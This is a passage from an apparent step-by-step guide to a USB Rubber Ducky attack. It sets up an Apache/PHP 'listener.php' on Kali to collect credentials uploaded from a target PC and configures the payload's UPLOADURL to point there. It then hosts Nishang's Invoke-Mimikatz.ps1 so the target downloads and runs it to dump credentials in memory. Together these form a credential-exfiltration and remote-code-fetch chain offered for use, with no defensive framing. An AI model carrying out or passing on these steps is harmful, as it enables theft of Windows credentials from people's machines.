     </aside>
    

### **Step 2: Configure PHP Listener Script**

Prepare a PHP script to receive and save the credentials uploaded from the target PC. Host the PHP script as `listener.php` on your server:

1. **Prepare PHP Script**:
    - Navigate to the web root directory, typically `/var/www/html/` in Apache on Kali Linux.
    - Create a new directory for your project: `sudo mkdir /var/www/html/mimikatz_listener`
    - Create the `listener.php` file within this directory and insert your PHP code: `sudo nano /var/www/html/mimikatz_listener/listener.php`
    - Copy and paste your PHP listener script into the editor.
    - Save and exit the editor (`CTRL + X`, then `Y` to confirm, and `Enter` to save in nano).
2. **Accessing PHP Script Locally**
    - With Apache running, open a web browser.
    - Visit `http://localhost/mimikatz_listener/listener.php` to confirm that the Apache server is correctly serving your PHP file. This URL points to your PHP script. The actual interaction with this script will be from the payload executed by the USB Rubber Ducky.
    - If the PHP script doesn't execute as expected, check Apache's error logs for clues (`/var/log/apache2/error.log`).
        
        <aside>
        ⚠️ File Permissions:
        
        - The PHP script may not be creating files due to insufficient permissions on the directory where it's trying to write the files. Ensure that the Apache user (usually `www-data` on Debian-based systems like Kali Linux) has write permissions to the directory.
        - You can adjust the permissions with the following command, executed in the directory where you want the files to be created (`/var/www/html` for default Apache installations):
            
            `sudo chown -R www-data:www-data /var/www/html/*`
            `sudo chmod -R 755 /var/www/html/*`
            
        </aside>
        
3. **Reference Script in Payload:**
    - Adjust the `UPLOADURL` parameter in your payload: `DEFINE UPLOADURL http://localhost/mimikatz_listener/listener.php`
    - Replace `localhost` with your server's IP address (e.g. Kali Linux VM) if accessing from a different machine.

### Step 3: **Host the Invoke-Mimikatz Script**

Store and serve the Invoke-Mimikatz script from your Kali Linux web server to be executed by the target system. Invoke-Mimikatz script reflectively loads Mimikatz 2.2.0 in memory using PowerShell. Can be used to dump credentials without writing anything to disk.

1. **Download Invoke-Mimikatz Script:** 
    - Obtain the `Invoke-Mimikatz.ps1` script from the Nishang GitHub repository here: https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1
2. **Place Script in Web Server's Root Directory**:
    - Transfer the `Invoke-Mimikatz.ps1` script to the `/var/www/html` directory or a specific subdirectory within it, e.g., `scripts`.
        